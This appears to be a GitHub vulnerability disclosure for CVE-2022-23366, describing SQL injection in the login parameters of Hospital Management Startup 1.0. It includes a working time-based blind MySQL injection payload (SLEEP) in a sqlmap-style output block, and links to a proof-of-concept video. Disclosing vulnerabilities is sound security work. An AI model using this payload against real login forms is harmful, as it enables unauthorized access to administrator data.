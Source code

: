 ## [CVE-2022-23366](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23366)

## [Vendor](https://github.com/kabirkhyrul/HMS)

## [Vendor_youtube](https://www.youtube.com/watch?v=-BbzYjPO0pk)


![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-23366/Docs/Screenshot%202022-02-10%20115248.png)


## Description:
The loginid and password parameters from Hospital Management Startup 1.0 appear to be vulnerable to SQL injection attacks. 
The attacker can retrieve all information from the administrator account of the system and he can use the information for malicious purposes! 
WARNING: If this is in some external domain, or some subdomain, or internal, this will be extremely dangerous!

Status: CRITICAL


[+] Payloads:

```mysql
---
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=hackedpassword=hacked' or '6681'='6681' AND (SELECT 1959 FROM (SELECT(SLEEP(3)))PuyC) AND 'sDHP'='sDHP&rememberme=on&submit=Login
---

```
## Issue and conversation:
[href](https://github.com/kabirkhyrul/HMS/discussions/4)

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/2022/CVE-2022-23366)

## Proof and Exploit:
[href](https://streamable.com/hri9eo)

## Music
[href](https://dualcoremusic.bandcamp.com/album/success-single-remix-ft-mega-ran)
